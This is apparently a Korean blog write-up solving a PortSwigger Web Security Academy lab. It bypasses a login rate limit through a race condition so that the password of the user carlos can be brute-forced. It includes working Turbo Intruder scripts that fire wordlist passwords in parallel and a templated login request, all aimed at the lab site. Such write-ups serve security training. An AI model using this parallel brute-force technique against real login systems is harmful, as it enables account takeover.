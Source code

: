```yaml
---
layout: post
title: "Burp Academy-레이스컨디션 관련 취약점: Bypassing rate limits via race conditions"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 레이스컨디션, Race Condition]
toc: true
last_modified_at: 2023-09-01 10:33:00 +0900
---
```


# 개요
- 새로 추가된 레이스 컨디션 관련 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits
- 취약점 설명페이지: https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions
- 난이도: PRACTITIONER (보통)

# 문제 개요 
- 이번에는 로그인 시도 횟수 제한이 있는 로그인기능을 브루트포스로 푸는 문제이다. 
- 로그인 시도 횟수 카운터가 올라가기 전에 요청을 병렬로 보내면 될 것 같다. 
- 로그인에 시도할 패스워드 목록도 제공해주고 있다. 
- 로그인에 성공하면 admin 패널에서 carlos유저를 삭제하면 된다. 
- 이 랩은 15분 시간제한이 있다. 이 시간안에 브루트포스를 성공시켜야 한다. 

```
This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.

To solve the lab:

Work out how to exploit the race condition to bypass the rate limit.
Successfully brute-force the password for the user carlos.
Log in and access the admin panel.
Delete the user carlos.
You can log in to your account with the following credentials: wiener:peter.

You should use the following list of potential passwords:
```

# 터보 인트루더를 사용하기 
요청을 병렬로 보내기 위한 다음과 같은 기본형이 소개되어 있다. 

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```

# 풀이
## Turbo Intruder 설치
혹시 Turbo Intruder가 설치되어 있지 않다면 Extensions > BApp Store에서 Turbo Intruder를 설치한다. 

※ Turbo Intruder는 Python으로 작성되었으므로 Burp Suite에서 실행하려면 Jython이 필요하다. 

## 로그인 요청을 터보 인트루더로 보내기 
로그인요청을 Burp Proxy로 잡은 후에 마우스 오른쪽 버튼 클릭 Extensions > Turbo Instruder > Send to turbo intruder를 선택한다. 

## 터보 인트루더 세팅하기 
1. 로그인 요청 조정 

로그인 요청을 조금 조정한다. useranme은 carlos로 변경하고 password부분은 %s로 바꾼다. 

```http
POST /login HTTP/2
Host: 0a150014032cbb6382ec568f00bd00c3.web-security-academy.net
Cookie: session=TYVh5XkpMwjuvNVwTx9Vaj0jUDX2MUCR
Content-Length: 68
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a150014032cbb6382ec568f00bd00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a150014032cbb6382ec568f00bd00c3.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=zFE02nmU8JvnHNLgT1xbM2gRS4Ori9vT&username=carlos&password=%s
```


2. 문제에서 주어진 패스워드를 파일로 저장해준다. 나는 C:\passwords\passwords.txt에 저장해두었다. 

3. 패스워드 후보를 파일에서 얻어오도록 다음과 같이 코드를 수정한다. 

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    for word in open('C:\passwords\passwords.txt'):
        engine.queue(target.req, word.rstrip(), gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')


def handleResponse(req, interesting):
    if interesting:
        table.add(req)

```

## 브루트 포스 공격시도 

4. attack을 눌러서 공격을 시도한다. 그러면 다음과 같이 결과라 리스트업 된다. 여러 응답중에 하나만 302응답인 것을 알 수 있다. 이 것이 calors유저의 패스워드이다. 

(혹시 csrf토큰에러가 발생한다면 새롭게 로그인 웹 페이지에 들어가서 새로운 csrf토큰을 얻어와서 세팅한다. )

![attack결과](/images/burp-academy-race-condition-2-1.png)

5. calros유저로 로그인한다. 

![calors유저로 로그인](/images/burp-academy-race-condition-2-2.png)

6. Delete버튼을 눌러서 calros 유저를 삭제하면 문제가 풀렸다는 메세지가 출력된다. 

![문제풀이](/images/burp-academy-race-condition-2-success.png)

# 배운 것
- 이전 문제에서 Burp Reapeter에서 수행했던 HTTP/2 Single Packet Attack 을 Turbo Intruder를 이용해서 수행할 수 있다. 
- 코드를 작성할 수 있으니 더 여러방면에서 쓸 수 있다. 

# 참고 
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py
- https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack